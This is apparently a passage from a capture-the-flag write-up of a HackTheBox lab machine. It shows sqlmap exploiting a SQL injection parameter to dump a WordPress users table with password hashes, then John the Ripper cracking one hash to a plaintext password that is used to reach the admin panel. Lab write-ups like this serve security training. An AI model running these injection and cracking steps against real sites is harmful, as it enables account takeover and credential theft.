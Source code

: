 Of all of these tables, wp\_users looks the most promising, so let me list the contents of that.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -r admin.req -p total_service -D blog -T wp_users --dump
...
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| ID | user_url             | user_pass                          | user_email            | user_login | user_status | display_name | user_nicename | user_registered     | user_activation_key |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
| 1  | http://metapress.htb | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb   | admin      | 0           | admin        | admin         | 2022-06-23 17:58:28 | <blank>             |
| 2  | <blank>              | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | manager    | 0           | manager      | manager       | 2022-06-23 18:07:55 | <blank>             |
+----+----------------------+------------------------------------+-----------------------+------------+-------------+--------------+---------------+---------------------+---------------------+
```

We've got a set of hashes! They look to be pretty important too - admin and manager. I'll add them to my hash file and then let john take care of the rest.

```
┌──(kali㉿kali)-[~]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
partylikearockstar (?)
```

I logged into the `login` page on the webpage with my newfound manager credentials and I'm able to access the admin panel.

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>
